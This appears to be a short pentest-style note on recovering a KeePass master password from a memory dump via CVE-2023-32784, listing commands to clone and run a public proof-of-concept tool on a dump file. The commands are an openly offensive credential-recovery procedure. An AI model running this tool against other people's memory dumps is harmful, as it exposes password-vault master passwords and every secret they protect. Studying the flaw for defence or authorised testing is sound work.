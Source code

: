 # Keepass Master Password Dumping

## 1) Dump password from memory dump (CVE-2023-32784)

## Github repo: https://github.com/vdohney/keepass-password-dumper

### To effectively use this PoC against a memory dump, we do these steps:

    git clone https://github.com/vdohney/keepass-password-dumper.git

    cd keepass-password-dumper

    dotnet run /path/to/KEEPASSDUMP.dmp (Run the C# project on the dump file to get the master password)
